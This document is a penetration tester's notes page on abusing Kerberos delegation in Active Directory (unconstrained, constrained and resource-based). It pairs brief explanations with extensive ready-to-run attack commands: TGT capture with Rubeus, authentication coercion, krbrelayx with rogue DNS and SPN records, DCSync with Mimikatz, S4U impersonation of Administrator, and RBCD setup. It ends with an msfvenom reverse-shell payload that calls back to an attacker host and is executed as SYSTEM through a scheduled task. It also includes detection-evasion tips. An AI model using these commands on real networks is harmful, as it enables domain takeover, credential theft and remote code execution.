










# Delegations


* [ATTL4S](https://www.youtube.com/@ATTL4S)'s amazing Kerberos presentations for all things related to Kerberos
* [Resource-Based Constrained Delegation - Resourced @ PG-Practice](https://www.youtube.com/watch?v=xMTCZt5DRB0)
* [Delegate to the Top: Abusing Kerberos for Arbitrary Impersonations and RCE](https://www.youtube.com/watch?v=Y2Wh2e6eZVc)
* [Delegating Kerberos To Bypass Kerberos Delegation Limitation by Charlie Bromberg](https://www.youtube.com/watch?v=byykEId3FUs)
* [Kerberos Delegation Attacks](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf)
* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)


## Double Hop Issue

Kerberos Delegation is a mechanism designed to address the **Kerberos double hop issue**, which arises when an authenticated user accesses a remote service (first hop), and that service must then access another resource on a different system (second hop) on behalf of the same user.&#x20;

<figure><figcaption><p>The Kerberos double hop issue.</p></figcaption></figure>

This issue stems from the fact that both **access tokens and credentials are tied to a user’s logon session**. The **access token defines the user’s local security context** which is used by the operating system to control what the user can do on the local machine. **Credentials**, such as NTLM hashes or Kerberos tickets, **represent the user’s network security context** and are used to authenticate to remote systems. Therefore, unless delegation is configured, **a service that receives an access token cannot leverage that token to authenticate as the user to another system**.

<figure><figcaption><p>Access tokens and credentials are tied to a user's logon session.</p></figcaption></figure>

To overcome the Kerberos double hop issue, two primary approaches exist:

* [**CredSSP**](https://learn.microsoft.com/en-us/windows/win32/secauthn/credential-security-support-provider): Stores user credentials in cleartext on the first hop, allowing the second hop to reuse them. While effective, this method introduces significant security concerns due to plaintext credential exposure.
* **Kerberos Delegation**: Enables services to reuse a user's Kerberos-based authentication to access other resources across the network. This allows impersonation beyond the local system without exposing credentials directly, and it can be configured with varying levels of control and restriction depending on the delegation type.

There are three main types of Kerberos delegation:

<table><thead><tr><th width="159.33331298828125">Delegation Type</th><th>Description</th></tr></thead><tbody><tr><td>Unconstrained</td><td>Grants a service unrestricted ability to <strong>impersonate a user to any service in the domain</strong>.</td></tr><tr><td>Constrained</td><td>Limits impersonation to <strong>specific services on specific hosts</strong>. If a user authenticates using a method other than Kerberos (e.g., NTLM), the service can still delegate using <strong>Protocol Transition</strong>, converting the authentication method into a Kerberos ticket to perform delegation.</td></tr><tr><td>Resource-Based Constrained</td><td>Defined on the resource server rather than the delegating service. This allows the target server to <strong>specify which principals are allowed to delegate to it</strong>.</td></tr></tbody></table>

## Unconstrained


* To set the `TRUSTED_FOR_DELEGATION` UAC flag on an account, the `SeEnableDelegationPrivilege` is required. This is typically restricted to DAs.


<div align="left"><figure><figcaption></figcaption></figure></div>

When a user authenticates to a service configured for Unconstrained Delegation (UD), the KDC includes the user’s TGT inside the TGS response. The service decrypts this TGS, extracts the TGT, and stores it in LSASS. With this TGT available, the service can now request additional TGSs on behalf of the user for any service in the domain, allowing the server to fully impersonate the user over the network. It should be noted, that a service account cannot modify itself to add this option.

<figure><figcaption><p>The uncostrained delegation process (image adapted from <a href="https://thalpius.com/2024/05/31/microsoft-defender-for-identity-recommended-actions-unsecure-kerberos-delegation/">here</a>).</p></figcaption></figure>


**OPSEC**: Performing a DCSyc with `DC$` will typically fly under the radar.


This behavior introduces a critical security risk: if a host configured for UD is compromised, any user who authenticates to it exposes their TGT to the attacker. **The host becomes a passive collection point for TGTs**. The attacker can wait for privileged users to connect naturally or to actively force a connection from a privileged account (e.g. `DC01$`) to the compromised host.


1. User requests TGS for a server configured with UD.
2. KDC embeds the user's TGT into the issued TGS.
3. Server stores the user's TGT into memory.
4. Server gets compromised and a DA logs in.
5. Attacker captures DA's TGT and can now access the DC's services, eg. CIFS.



```powershell
# Launch Rubeus in monitor mode from the compromised host
.\Rubeus.exe monitor /interval:5 /nowrap
.\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap

# List available shares
net view \\\dc01.batman.local

# ptt -> inject ticket into memory for future requests
.\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.batman.local /ptt

# If the above does not work -> get a new TGT instead of TGS
.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt

# Use CIFS
dir \\dc01.batman.local\c$
```


Some Windows services make this coercion possible:


When leveraging WSP or DFS, use the netBIOS name, not the FQDN as with RPRN.


<table><thead><tr><th width="252.333251953125">Protocol</th><th width="171.33331298828125">Service</th><th width="211.0001220703125">Default on Server OS</th><th width="110.6666259765625">Ports</th></tr></thead><tbody><tr><td><a href="https://github.com/leechristensen/SpoolSample">MS-RPRN</a></td><td>Print Spooler</td><td>Yes</td><td>445</td></tr><tr><td><a href="https://github.com/slemire/WSPCoerce">MS-WSP</a></td><td>Windows Search</td><td>No (Default on Client OS)</td><td>445</td></tr><tr><td><a href="https://github.com/jfma7/DFSCoerce-exe">MS-DFSNM</a> (MDI detects this)</td><td>DFS Namespaces</td><td>No</td><td>445</td></tr></tbody></table>

Enumerate hosts which have UD configured.


```powershell
# UD-configured host enumeration (PowerView)
Get-DomainComputer -Unconstrained

# UD-configured host enumeration (AD module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```



```powershell


#----------------#
# Watch for TGTs #
#----------------#

# Launch Rubeus in monitor mode from the compromised host
.\Rubeus.exe monitor /interval:5 /nowrap
.\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap

#-------------------#
# Coerce connection #
#-------------------#

# Print Spooler (the error is expected) (<target-server> <compromised-server>)
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.

# Windows Search
.\WSPCoerce DCORP-DC DCORP-APPSRV

# Distributed File System
.\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv

#---------#
# Exploit #
#---------#

# Inject the ticket
.\Rubeus.exe ptt /ticket:doI...BTA==

# Confirm the ticket is cached
> klist

#-----------------------------#
# Ticket from DC01$ -> DCSync #
#-----------------------------#

# Mimikatz
.\mimikatz.exe
mimikatz # lsadump::dcsync /user:sarah.lafferty

# SafetyKatz
.\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"

# Get TGT as the target user
.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:bob.sponge /ptt

#-------------------------------------------------------#
# Ticket from non-DC host -> S4U2Self (TGS as any user) #
#-------------------------------------------------------#

# Forge a ticket to connect via SMB using CIFS
.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.batman.local /ptt /ticket:doI<SNIP>
```


User accounts can also be configured with UD. If we compromise such an account, we need to also be able to update its SPN list, thus, an account with `GenericWrite` on it is required. The process is as follows:

1. Create a fake DNS record using a valid domain acc pointing to the attacker host. Essentially, creating a fake computer in the AD environment.
2. Add the `CIFS/<dns_record>` SPN to the compromised account, so we can leverage UD.
3. When a victim connects via SMB to the attacker host, the KDC will embed their TGT within the TGS.

User accounts can also be configured for UD. If such an account is compromised, the attacker must also have the ability to modify its SPN set, which typically requires `GenericWrite` (or equivalent) permissions over the account object. The general process is outlined below:

1. **Create a malicious DNS record** using a valid domain account. This record resolves to an attacker-controlled host and effectively introduces a rogue service endpoint within the AD environment.
2. **Register a suitable SPN** (for example, `CIFS/<dns_record>`) on the compromised user account. This enables the account to act as a Kerberos service capable of receiving delegated tickets.
3. **Trigger Kerberos authentication to the rogue service.** When a privileged user authenticates to the attacker-controlled endpoint, their TGT is forwarded to the UD account. The attacker can then extract and reuse this TGT to impersonate the victim and escalate privileges within the domain.

This attack can be performed using the [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) tools and [`dementor.py`](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) is an alterntive for triggering the Printer Bug. In the example below:

* `x7331dev` is a user account configured with UD
* `x7331` has `GenericWrite` over `x7331dev`

```powershell
# Search for user with the TRUSTED_FOR_DELEGATION flag in their UAC (PowerView)
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
...
samaccountname        : x7331dev
serviceprincipalname  : MSSQL_svc_dev/marvel.local:1443
useraccountcontrol    : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION
```


```bash
# Add a fake DNS record pointing to the attacker host 
# -d -> attacker host, add -> DC
python dnstool.py -u marvel.local\\x7331 -p Passw0rd123! -r roguecomputer.marvel.local -d 10.10.14.2 --action add 10.129.1.207

# Verify that it was created
nslookup roguecomputer.marvel.local 10.129.1.207

# Add an SPN to the target user (samname = user, if unspecified -> hostname)
python addspn.py -u marvel.local\\x7331 -p Passw0rd123! --target-type samname -t x7731dev -s CIFS/roguecomputer.marvel.local 10.129.1.207 

# Provide the NT hash of the compromised user (x7331dev) so it can decrypt the TGS
sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

# Coerce DC01$ to connect to the rogue DNS
python3 printerbug.py marvel.local/x7331:Passw0rd123!@10.129.205.35 roguecomputer.marvel.local

python dementor.py -u x7331 -p Passw0rd123! -d marvel.local roguecomputer.marvel.local 10.129.1.207

# Export the TGT
export KRB5CCNAME=./DC01\\$@MARVEL.LOCAL_krbtgt@MARVEL.LOCAL.ccache

# If needed
unset KRB5CCNAME

# DCSync using the compromised TGT
$ sudo secretsdump.py -k -no-pass dc01.batman.local
```


## Constrained

<div align="left"><figure><figcaption></figcaption></figure></div>

Constrained Delegation (CD) enables a service to impersonate users to access specific services on specific hosts. The list of allowed services is stored in the `msDS-AllowedToDelegateTo` attribute. As in UD, a service account cannot modify itself to add this option either.&#x20;

<div align="left"><figure><figcaption></figcaption></figure></div>

The service account makes a special TGS-REQ (`S4U2Proxy`) to KDC by modifying two of its fields:

* `additional tickets` → contain a TGS copy the user sent to the service account
* `cname-in-addl-tkt` → indicates to KDC to use the ticket information within `additional_tickets` instead of the server information

The KDC will check that the account has the rights to delegate to the requested service and that the TGS copy is `forwardable`. If everything checks out, it will return a TGS.

### With Protocol Transition

<div align="left"><figure><figcaption></figcaption></figure></div>

`S4U2Self` and `S4U2Proxy` are Kerberos extensions in AD that enable delegation. They are commonly used in CD scenarios.

`S4U2Self` addresses the situation where a user authenticates to a service without using Kerberos (for example, via NTLM or another method) and therefore does not present a TGS. In this step, the service requests a forwardable TGS to itself on behalf of a specified user. The user’s password is not required. The DC verifies that the service is trusted for delegation and that the user is not marked as `sensitive for delegation`. If these checks pass, the TGS is issued.

With this ticket, the service can then perform `S4U2Proxy`. In this step, the service requests a second TGS to access a downstream service on behalf of the user. The request is limited to the target services listed in the service account’s `msDS-AllowedToDelegateTo` attribute. The KDC validates that the target SPN is permitted and, if so, issues a new TGS. The service can then use this ticket to authenticate to the downstream resource as the user.


* `S4U2Self` → Service requests a ticket to itself as the user.
* `S4U2Proxy` → Service requets a ticket for another service as the user.


<figure><figcaption><p>Constrained Delegation with protocol transition.</p></figcaption></figure>

This setup, however, introduces two key risks if the delegating account is compromised.&#x20;

First, with `S4U2Self`, **the service can obtain a forwardable ticket for** **any domain user**, including highly privileged ones such as DAs. As a result, any downstream service listed in `msDS-AllowedToDelegateTo` becomes reachable as a privileged identity. A compromised service account essentially becomes a powerful pivot point to lateral movement.

<figure><figcaption><p>Targeting the <code>S4U2Self</code> step.</p></figcaption></figure>


```powershell
#---------#
# WINDOWS #
#---------#

#------------------------------------------------------------------#
# Enumerate users and computers with Contrained Delegation enabled #
#------------------------------------------------------------------#

# PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

#------------------------------------------#
# Make the S4U2Self and S4U2Proxy requests #
#------------------------------------------#

# Obtain the NTLM/AES256 of the compromised account configured with CD
.\mimikatz.exe privilege::debug sekurlsa::msv exit

# Obtain a TGS as the administrator while targeting CIFS
.\Rubeus.exe s4u /user:websvc /aes256:<key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

#---------------------#
# Leverage the access #
#---------------------#

# Access the target's file system as Administrator
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```



```bash
#-------#
# LINUX #
#-------#

# Enumerate accounts with delegation privileges
$ impacket-findDelegation MARVEL.LOCAL/bob.dylan:'Passw0rd123!'

# Request TGS impersonating the Admin
impacket-getST -spn TERMSRV/DC01 'MARVEL.LOCAL/bob.dylan:Passw0rd123!' -impersonate Administrator

# Export the TGS
export KRB5CCNAME=./Administrator.ccache

# Access the target
psexec.py -k -no-pass MARVEL.LOCAL/administrator@DC01
```


Second, the SPN in an `S4U2Proxy` request is sent in plaintext, which means it can be modified. While the `msDS-AllowedToDelegateTo` attribute is intended to restrict which services a ticket can be requested for, this control applies only to the target host and not always to the specific service class.

As a result, if delegation is configured for a low-risk service, such as `TIME/dcorp-dc`, the service portion of the SPN (for example, `TIME`) can potentially be changed to a more sensitive one, such as `LDAP`, while keeping the same host. This can allow access to higher-privilege services than originally intended, increasing the risk of abuse.

<figure><figcaption><p>Targeting the <code>S4U2Proxy</code> step.</p></figcaption></figure>


Services are case-sensitive → `LDAP` not `ldap`!



```powershell
#------------------------------------------------------------------#
# Enumerate users and computers with Contrained Delegation enabled #
#------------------------------------------------------------------#

# PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

#------------------#
# SPN modification #
#------------------#

# Obtain the NTLM/AES256 of the compromised account configured with CD
.\mimikatz.exe privilege::debug sekurlsa::msv exit

# From an elevated shell, alter the service
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.local /altservice:LDAP /ptt

# Attacks like DCSync can now be executed
```


A list of what each SPN provides can be found below.


`WSMAN` is the protocol the underlies PowerShell Remoting, so **SP**


<table><thead><tr><th width="137.66668701171875">Service (SPN)</th><th width="607.3333129882812">Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, combined with <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (combined with <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr><tr><td><code>TERMSRV</code></td><td>RDP (Remote Desktop Protocol)</td></tr></tbody></table>

### Without Protocol Transition

CD without Protocol Transition requires the client to authenticate with Kerberos directly. The user must first obtain a TGS and present it to the front-end service. This ticket serves as the “evidence” required for the subsequent `S4U2Proxy` request.

To abuse this setup, only a valid TGS and an account with at least one SPN are required. A machine account can be created for this purpose using tools such as [PowerMad](https://github.com/Kevin-Robertson/Powermad). By default, AD allows authenticated users to create up to 10 machine accounts (the `machineAccountQuota` attribute), which makes this approach practical in many environments.

Additionally, any account with an SPN can configure RBCD on a resource it controls. For example, if `web01` is configured to trust `attl4s` via RBCD, then `attl4s` can impersonate any user when accessing `web01`.

<figure><figcaption><p>Constrained Delegation without Protocol Transition.</p></figcaption></figure>


```powershell
#----------------#
# Obtain the TGT #
#----------------#

# Create a new machine account with an SPN
New-MachineAccount -MachineAccount attl4s

# Impersonate web01 using its credentials and generate the TGT
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt

#----------#
# Set RBCD #
#----------#

# Dot-source the module
. .\Microsoft.ActiveDirectory.Management.dll

# Set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose

#---------#
# Exploit #
#---------#

# Use the machine acc to obtain a TGS for web01 as the Administrator
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```


### Resource-based

<div align="left"><figure><figcaption></figcaption></figure></div>

Resource-Based Constrained Delegation (RBCD) transfers control of delegation from DAs to the owners of the specific resource or service being accessed. Instead of being centrally managed, delegation is defined on the target resource through the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This attribute, configured on the resource account itself, contains a list of trusted principals that are permitted to act on behalf of other users when accessing that resource.


The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute can be displayed as `PrincipalsAllowedToDelegateToAccount` on various tools.


This approach allows the administrator of a service, such as a database or application, to grant delegation rights to trusted systems without requiring elevated domain privileges like `SeEnableDelegation`. As a result, delegation can be managed in a more granular and decentralized manner.

<div align="left"><figure><figcaption><p>Constrained vs. Resource-Based Constrained Delegation (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure></div>

The TGS request process in RBCD is broadly similar to traditional CD. However, a key distinction is that the resource controls its own trust configuration by modifying the relevant attribute. Consequently, any service account with sufficient permissions over its own object can allow one or more accounts to delegate to it, enabling flexible and fine-grained delegation scenarios.

To exploit RBCD successfully, two primary conditions must be satisfied:

1. The attacker must have control over an account or group that has permission to modify the target object’s delegation attribute, `msDS-AllowedToActOnBehalfOfOtherIdentity`.
2. The attacker must control an account that has a SPN assigned. This can be accomplished either by compromising an existing account with an SPN or by creating a new account capable of obtaining one. The latter approach is viable due to the default `MachineAccountQuota` configuration in AD. By default, this setting permits standard domain users to join up to ten machines to the domain. When a new computer account is created, it automatically receives an SPN, thereby providing the attacker with a suitable account to use in the RBCD attack chain.


* For an example of this attack, see [Support](https://x7331.gitbook.io/boxes/boxes/easy/support#rbcd).
* Tools: [StandIn](https://github.com/FuzzySecurity/StandIn), [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1), [AD cmdlet](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps), [SearchRBCD](https://github.com/CSpanias/ctf-scripts/blob/main/SearchRBCD.ps1), [Powermad](https://github.com/Kevin-Robertson/Powermad).


<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">#---------#
# WINDOWS #
#---------#

# Enumerate permissions
.\SearchRBCD.ps1

#---------------------------#
# Create a computer account #
#---------------------------#

.\StandIn.exe --computer &#x3C;name> --make

Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount RBCD -Password $(ConvertTo-SecureString "Passw0rd123!" -AsPlainText -Force)

# Get the SID of the computer account (PowerView)
$ComputerSid = Get-DomainComputer RBCD -Properties objectsid | Select -Expand objectsid

#------------------------#
# Set RBCD on the target #
#------------------------#

# Create a security descriptor
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

# Set the target attribute in raw binary format
$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

# Modify the target computer
$credentials = New-Object System.Management.Automation.PSCredential "MARVEL\x7331", (ConvertTo-SecureString "Passw0rd123!" -AsPlainText -Force)

Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose

# StandIn
.\StandIn.exe --computer &#x3C;dc> --sid &#x3C;sid>

# PowerView
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std337$' -Verbose

# AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps

# Add WEBSRV$ to the trusted list of DBSRV using the AD module
Set-ADComputer DBSRV -PrincipalsAllowedToDelegateToAccount (Get-ADComputer WEBSRV)

# Confirm it worked with PowerView
Get-DomainRBCD

#---------#
# Exploit #
#---------#

# Extract the credentials of the machine account
.\SafetyKatz.exe "sekurlsa::ekeys" "exit"
<strong>
</strong># Get the hash of the machine account
.\Rubeus.exe hash /user:RBCDACC$ /password:'Passw0rd123!' /domain:marvel.local

# Request and inject a ST (S4U2Self and S4U2Proxy) as Adminstrator
.\Rubeus.exe s4u /user:dcorp-std337$ /aes256:&#x3C;aes256key> /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

# Obtain a TGS for CIFS (or /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to the TGS)
.\Rubeus.exe s4u /user:RBCDACC$ /rc4:AB4F5A5C42DF5A0EE337D12CE77332F5 /impersonateuser:administrator /msdsspn:cifs/dc01.marvel.local /ptt

# Access the target host as Administrator
winrs -r:dcorp-mgmt cmd.exe

# Access the target
ls \\dc01.marvel.local\c$

# Clear the attribute (PowerView)
Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
</code></pre>


```bash
#-------#
# LINUX #
#-------#

# Create a computer account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'

# Configure RBCD
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174

# Generate ST for the administrator account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'

# Convert kirbi to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache

# Export the ticket
export KRB5CCNAME=ticket.ccache

# Use the ticket
impacket-psexec -k -no-pass domain.local/Administrator@target.fqdn -dc-ip <dc-ip>
```


## Services

### CD & CIFS

In scenarios where a machine account is configured with CD to a target server's CIFS, it is possible to impersonate privileged users and access the target via SMB by abusing the delegation trust.


In certain execution methods (like those involving service control manager RPC calls, e.g., `PsExec`) a valid `HOST` SPN ticket may be also required. This is because behind the scenes, `PsExec` uses the Service Control Manager (SCM), which may demand authentication tied to the `HOST` SPN. If CIFS-only ticket injection fails to enable RCE, request and inject an additional TGS for the `HOST/target` service.


In the below example, the machine account `CLIENT1$` is trusted for CD to the CIFS service on `server.internal.corp`. This means the delegation rights are set **on the delegator account** (`CLIENT1$`) through the `msDS-AllowedToDelegateTo` attribute, indicating classic CD.&#x20;

With the AES-256 key for `CLIENT1$` extracted, forged Kerberos tickets can be created using Rubeus’s `/s4u` module to impersonate a privileged user such as `Administrator`. Injecting these tickets allows access to the CIFS service on the target.


```shell
# Enumerate delegation (PowerView)
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto

#-------------#
# File Access #
#-------------#

# Request a TGS for CIFS impersonating the administrator
.\Rubeus.exe s4u /user:client1$ /aes256:<key> /impersonateuser:Administrator /msdsspn:CIFS/server.internal.corp /ptt

# Confirm the ticket's contents
klist
    
# Test access on the target host
dir \\server.internal.corp\c$\

#--------------#
# RCE vis CIFS #
#--------------#

# Generate a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o shell.exe

# Copy the malicious binary to the target host via SMB
echo F | xcopy shell.exe \\server.internal.corp\c$\users\public\shell.exe

# Check system time
>time /t
05:33 PM

# Create a malicious scheduled task as SYSTEM
schtasks /Create /S server.internal.corp /TN "rev" /SC MINUTE /MO 1 /ST 05:39 /RU "NT AUTHORITY\SYSTEM" /TR "c:\users\public\shell.exe" /f
```

